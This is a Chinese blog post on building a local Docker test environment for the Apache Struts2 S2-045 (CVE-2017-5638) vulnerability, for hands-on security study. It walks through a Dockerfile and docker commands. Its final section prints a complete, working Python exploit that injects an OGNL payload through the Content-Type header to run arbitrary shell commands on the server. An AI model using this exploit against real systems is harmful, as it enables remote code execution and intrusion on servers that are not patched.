 ```yaml
---
layout: post
title: 如何使用Docker构建S2-045漏洞环境
categories: [Configuration]
tags: [Docker,Vulnerability-environment]
description: "S2又出高危了，想搞事又怕被水表怎么办？不如自己构建一个真实的漏洞环境，在本地过过瘾。这篇博客以最新的 S2-045 为例，记录如何使用Docker快速进行漏洞测试环境的构建"
fullview: false
comments: true
---
```

# 准备工作

## 关于 Docker

首先你需要一个Docker环境，关于Docker感兴趣的同学可以阅读[《Docker—入门到实践》](https://yeasy.gitbooks.io/docker_practice/content/)。

关于如何安装Docker请看[安装 Docker](https://yeasy.gitbooks.io/docker_practice/content/install/)。

## 关于 Dockerfile

>如果我们可以把每一层修改、安装、构建、操作的命令都写入一个脚本，用这个脚本来构建、定制镜像，那么之前提及的无法重复的问题、镜像构建透明性的问题、体积的问题就都会解决。这个脚本就是 Dockerfile。

本次重点内容就是如何创建一个 Dockerfile 并构建一个 Docker 镜像。

关于 Dockerfile 请看[使用 Dockerfile 定制镜像](https://yeasy.gitbooks.io/docker_practice/content/image/build.html)

## 关于S2-045的测试环境

我们需要一个 S2-045 的测试环境，这里可以使用[ mottoin ](http://www.mottoin.com/)提供的[测试环境](https://github.com/mottoin/S2-045)。

也可以下载[ struts2-blank ](https://mvnrepository.com/artifact/org.apache.struts/struts2-blank) 进行测试，但是需要手动修改<code> struts.xml </code>，开启动态方法调用。

    <constant name="struts.enable.DynamicMethodInvocation" value="true"/>

# 创建一个 Dockerfile 文件

首先我们要创建一个文件夹来放测试环境以及 Dockerfile 。

    mkdir S2-045

在文件夹内放入下载好的测试环境，然后创建一个 Dockerfile 。

    cp your-download-path/S2-045.war ./S2-045
    vi ./S2-045/Dockerfile

将下列语句写入 Dockerfile ，保存并退出。

    FROM tomcat:8.0-jre8
    MAINTAINER mengbulang@live.com

    WORKDIR /tmp

    RUN set -ex && rm -rf /usr/local/tomcat/webapps/* \
    && chmod a+x /usr/local/tomcat/bin/*.sh

    COPY S2-045.war /usr/local/tomcat/webapps/ROOT.war
    
    EXPOSE 8080

    CMD ["/usr/local/tomcat/bin/catalina.sh", "run"]

当前的目录结构如下:

    └── S2-045
        ├── Dockerfile
        └── S2-045.war

# 构建 Dockerfile

运行命令:

    docker build -t s2-045 S2-045

docker 就会根据之前的 Dockerfile 进行自动构建。

![build](http://o8lgx56x1.bkt.clouddn.com//blog/img/s2-045-docker-build.png)

查看所有的镜像

    docker images -a

可以看到 s2-045 已经静静的躺在列表里面了。

![images-all](http://o8lgx56x1.bkt.clouddn.com//blog/img/s2-045-docker-images-all.png)

# 运行 s2-045 镜像

运行:

    docker run -d -p 80:8080 s2-045

查看当前运行镜像状态:

    docker stats

![stats](http://o8lgx56x1.bkt.clouddn.com//blog/img/s2-045-docker-stats.png)

访问搭建好的环境:

    http://127.0.0.1/index.action

![index](http://o8lgx56x1.bkt.clouddn.com//blog/img/s2-045-docker-index.png)

测试漏洞的脚本实在msf里面找的，相比其他公布出来的测试脚本更稳定：

    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    import urllib2
    import httplib


    def exploit(url, cmd):
        payload = "%{(#_='multipart/form-data')."
        payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
        payload += "(#_memberAccess?"
        payload += "(#_memberAccess=#dm):"
        payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
        payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
        payload += "(#ognlUtil.getExcludedPackageNames().clear())."
        payload += "(#ognlUtil.getExcludedClasses().clear())."
        payload += "(#context.setMemberAccess(#dm))))."
        payload += "(#cmd='%s')." % cmd
        payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
        payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
        payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
        payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
        payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
        payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
        payload += "(#ros.flush())}"

        try:
            headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
            request = urllib2.Request(url, headers=headers)
            page = urllib2.urlopen(request).read()
        except httplib.IncompleteRead, e:
            page = e.partial

        print(page)
        return page

    if __name__ == '__main__':
        import sys
        if len(sys.argv) != 3:
            print("[*] struts2_S2-045.py <url> <cmd>")
        else:
            print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
            url = sys.argv[1]
            cmd = sys.argv[2]
            print("[*] cmd: %s\n" % cmd)
            exploit(url, cmd)

使用方法如下:

    python poc.py http://127.0.0.1/index.action "cd / && ls -al"

![result](http://o8lgx56x1.bkt.clouddn.com//blog/img/s2-045-docker-result.png)

# 参考
[快速搭建各种漏洞环境](https://github.com/Medicean/VulApps)
[S2-045 原理初步分析](http://paper.seebug.org/241/)
